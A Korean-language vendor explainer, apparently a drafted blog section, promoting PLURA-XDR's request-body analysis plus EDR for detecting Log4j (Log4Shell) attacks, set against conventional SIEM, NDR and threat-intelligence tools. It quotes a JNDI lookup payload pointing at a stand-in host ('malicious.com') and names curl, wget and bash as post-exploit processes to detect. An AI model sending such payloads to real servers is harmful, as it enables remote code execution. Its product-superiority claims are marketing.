 ## **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**

### **1️⃣ 기존 위협 헌팅(SIEM + EDR + NDR + TI)이 탐지하지 못하는 이유**
| **비교 항목** | **기존 위협 헌팅 (SIEM + EDR + NDR + TI)** | **PLURA 웹 요청 본문 분석 + EDR** |
|----------|-------------------------------|-------------------------------|
| **탐지 방식** | IOC(위협 인텔리전스) 기반 탐지 → 기존 패턴 매칭에 의존하여 새로운 공격 탐지 어려움 | 행위 기반 탐지 → 웹 요청 본문과 실행 행위까지 실시간 분석하여 신규 공격 탐지 가능 |
| **웹 애플리케이션 공격 탐지** | 웹 요청 헤더, URL 분석만 가능 → 요청 본문 내부의 악성 패턴 분석 불가능 | **웹 요청 본문을 실시간 분석하여 JNDI 호출 패턴 탐지 가능** |
| **네트워크 트래픽 분석** | NDR이 SSL 복호화 후 패킷 분석 가능하지만 요청 본문 분석 불가 | **요청 본문을 분석하여 JNDI 패턴 포함 여부를 확인하고 탐지 가능** |
| **엔드포인트 보안** | EDR이 실행된 프로세스를 감지 가능하지만, 웹 애플리케이션에서 발생한 공격과의 연계 분석 어려움 | **EDR이 원격 코드 실행(RCE) 발생 시, 악성 프로세스 실행(Fork, Execve) 탐지 가능** |

### **2️⃣ 기존 위협 헌팅이 탐지하지 못하는 이유 상세 설명**
1. **SIEM + TI(Threat Intelligence) 한계**  
   - 기존 SIEM 및 TI는 **정적 IOC(Indicator of Compromise) 기반 탐지**에 의존합니다.  
   - 즉, **이미 알려진 악성 IP, 도메인, 파일 해시 값 등을 기반으로 탐지**하기 때문에, Log4j처럼 **새롭게 등장한 취약점을 이용한 공격을 탐지하기 어려움**.  
   - 공격자들이 **새로운 JNDI 호출 변형(payload 변형)을 이용하면 IOC 매칭을 우회**할 수 있음.  

2. **NDR(네트워크 기반 탐지)의 한계**  
   - NDR은 **SSL 복호화를 통해 네트워크 트래픽을 분석할 수 있지만, 요청 본문(payload)까지 정밀하게 분석하지 못함**.  
   - 즉, `jndi:ldap://malicious.com/exploit` 같은 **악성 페이로드가 포함된 웹 요청의 본문을 분석할 수 없음**.  
   - 네트워크 단에서 악성 트래픽이 발생할 수 있지만, **로그의 맥락(context)을 고려한 분석이 어려움**.  

3. **EDR(엔드포인트 보안)의 한계**  
   - EDR은 웹 서버 내에서 발생하는 악성 프로세스 실행(`curl`, `wget`, `bash` 등)을 감지할 수 있음.  
   - 하지만, **웹 애플리케이션에서 공격이 시작된 원인을 직접 분석하지 못하기 때문에, 웹 요청과 실행 프로세스 간의 연관성을 파악하기 어려움**.  
   - 즉, **웹 요청 → 악성 코드 실행**까지의 공격 흐름을 제대로 분석하지 못하면, 단순한 이상 프로세스로 오탐할 가능성이 있음.  

---

### **📌 3️⃣ PLURA 웹 요청 본문 분석 + EDR을 통한 탐지 방법**
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
   - PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 패턴을 탐지 가능.  
   - 검색창, 유저 입력값, HTTP 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  
   - 기존 WAF가 탐지하지 못하는 **다양한 JNDI 호출 변형을 분석하여 우회 공격도 탐지 가능**.  

✅ **2) 실행 행위 기반 탐지 및 차단 (EDR 연계)**  
   - 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우,  
   - PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
   - 예를 들어, 공격 성공 후 `curl`, `wget`, `bash` 등의 프로세스가 실행되면 이를 감지하여 즉시 차단 가능.  

✅ **3) 공격 흐름을 상관 분석하여 추가 공격 차단**  
   - 기존 IOC 기반 탐지가 어려운 공격이라도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격을 사전 차단 가능**.  
   - 즉, 공격자가 **JNDI 호출 변형을 사용하여 시그니처 기반 탐지를 우회**하려 해도 **행위 분석을 통해 탐지 가능**.  

---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR이 Log4j 공격 탐지에서 뛰어난 이유**
✅ **기존 위협 헌팅(SIEM + EDR + NDR + TI)은 IOC 기반 탐지에 의존하여 Log4j처럼 새로운 공격 패턴을 탐지하는 데 한계가 있음**.  
✅ **PLURA-XDR은 웹 요청 본문을 분석하고 행위 기반 탐지를 수행하여 Log4j 공격을 실시간으로 탐지 가능**.  
✅ **WAF를 우회하는 공격, 크리덴셜 스터핑, API Abuse, 랜섬웨어 탐지까지 대응 가능**.  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단**.  

🔹 **PLURA-XDR은 기존 보안 체계가 탐지하지 못하는 Zero-Day 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  

---

### **📌 개선된 핵심 포인트**
1. 기존 위협 헌팅이 **IOC 기반 탐지에 의존하여 새로운 공격 패턴을 탐지하지 못하는 이유**를 구체적으로 설명.  
2. **PLURA가 요청 본문을 분석하여 JNDI 패턴을 탐지하고, 실행된 악성 프로세스를 감지하여 차단하는 방식**을 명확하게 설명.  
3. 기존 보안 시스템이 탐지하지 못하는 이유를 **SIEM, NDR, EDR 별로 구체적으로 정리**하여 차별점을 강조.  

이제 독자가 **왜 기존 위협 헌팅이 Log4j 공격을 탐지하지 못하고, PLURA 웹 요청 본문 분석 + EDR이 더 강력한 탐지 방법인지**를 쉽게 이해할 수 있을 것입니다.  

**📌 추가 수정이 필요하시면 의견 주세요!** 😊

